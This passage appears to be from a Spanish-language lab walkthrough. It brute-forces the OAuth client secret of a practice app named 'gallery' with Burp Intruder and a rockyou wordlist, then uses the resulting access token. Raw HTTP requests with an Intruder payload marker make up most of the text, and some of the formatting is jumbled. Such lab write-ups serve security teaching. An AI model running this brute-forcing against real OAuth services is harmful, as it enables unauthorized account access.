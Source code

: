 En función de una solicitud de token de ejemplo (https://auth0.com/docs/api-auth/tutorials/authorization-code-grant), puede construir la siguiente solicitud POST.

```
POST /token HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

redirect_uri=http%3A%2F%2Fgallery%3A3005%2Fcallback&grant_type=authorization_code&client_id=photoprint&client_secret=§guess§&code=44438Note: 
```

* Copiar y pegar la solicitud anterior puede dar lugar a problemas de formato que harán que la solicitud HTTP tenga un formato incorrecto.
* La mejor manera de reproducir esa solicitud es iniciar sesión como se describe en el manual (obteniendo el primer código), capturar la solicitud usando Burp y enviarla a Repeater.
* Usando Burp Intruder y una lista de palabras (usamos Rockyou-10 disponible aquí) puedes forzar el secreto del cliente.

Después de iniciar el ataque, pronto nos damos cuenta de que el secreto del cliente es **secreto**.

En la ventana Repetidor:

```
POST /token HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 136
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
redirect_uri=http%3A%2F%2Fgallery%3A3005%2Fcallback&grant_type=authorization_code&client_id=photoprint&client_secret=secret&code=44438
Note: Specify the code that you received in the response.  
The response access token can now be supplied to the /photos/me?access_token= endpoint.
GET /photos/me?access_token=35580 HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

